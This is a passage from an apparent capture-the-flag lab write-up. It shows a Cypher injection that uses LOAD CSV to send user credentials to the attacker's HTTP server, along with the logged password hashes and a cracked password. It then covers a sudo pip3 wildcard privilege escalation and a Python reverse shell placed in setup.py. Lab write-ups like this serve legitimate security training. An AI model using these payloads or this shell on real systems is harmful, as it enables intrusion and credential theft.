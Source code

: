 Finally we can read the keys of the found properties:
```
# Send
search=' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.68:8000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
# And receive
10.10.11.210 - - [23/Aug/2023 11:00:04] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [23/Aug/2023 11:00:04] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [23/Aug/2023 11:00:04] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [23/Aug/2023 11:00:05] "GET /?username=john HTTP/1.1" 200 -
[...]
```

The last step is to crack these passwords, we already know the `admin` one, and on `crackstation.net` we can recover John's password : `ThisIs4You`. We can now use it to connect to the SSH server as `john` and get the flag !

## Root flag

### Search for vulnerability

After all this steps, I think that the root flag will as hard as the user, but after running `linpeas` and a bit of researches, I've found this in `sudo -l`:
```bash
User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http://127.0.0.1:3000/*.tar.gz
```

So, `john` can download a packet with `pip` from the local Gogs server. But the `*` is a misconfiguration in `sudo` config because we can replace it by anything, including:
```bash
# We replace by a path to a writable directory
$ /usr/bin/pip3 download http://127.0.0.1:3000/../../../../../../tmp/package.tar.gz
```

### Exploitation

And also, we need to know that `pip` will run the Python script `package/setup.py` in the downloaded archive. So we can craft the exploit with the following commands:
```bash
$ cd /tmp
/tmp $ mkdir package
/tmp $ cd package
/tmp/package $ vim setup.py
```

Write a Python reverse shell:
```python
import socket,os,pty
s=socket.socket()
s.connect(("<IP>","<PORT>"))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")
```
